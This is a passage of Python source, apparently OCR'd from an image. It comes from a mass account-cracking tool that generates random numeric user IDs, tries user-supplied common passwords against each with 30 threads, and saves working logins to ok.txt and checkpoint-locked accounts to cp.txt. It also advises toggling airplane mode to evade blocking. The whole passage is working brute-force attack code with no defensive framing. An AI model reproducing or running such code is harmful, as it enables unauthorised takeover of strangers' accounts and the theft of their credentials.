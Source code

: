 				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))

				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(Y))

				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))

				for user in self.id:

					coeg.submit(self.api, user, listpass.split(","))

			exit("\n\n%s [#] CRACK COMPLETE..."%(G))

		except Exception as e:exit(str(e))

		

		

	def old4_5(self):

		x = 111111

		xx = 999999

		#idx = input("%s [+] ENTER A DIGIT (1-9): %s"%(Y,G))

		idx = random.choice(["1", "2", "3", "4", "5", "6", "7", "8", "9"])

		limit = int(input("\033[0;92m [+] ENTER LIMIT \033[0;91m(10000 MAX): \033[0;92m"))

		if (limit)>10000:

			exit("\n%s [!] DON'T CROSS THE LIMIT BRO :)"%(R))

		try:

			for n in range(limit):

				_ = random.randint(x,xx)

				__ = idx

				self.id.append(__+str(_))

			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 

			with ThreadPoolExecutor(max_workers=30) as coeg:

				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,G,B,Y))

				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G)) 

				listpass = input("%s [?] ENTER PASSWORD :%s "%(Y,G))

				if len(listpass)<=5:

					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))

				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))

				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))

				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(Y))

				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))

				for user in self.id:
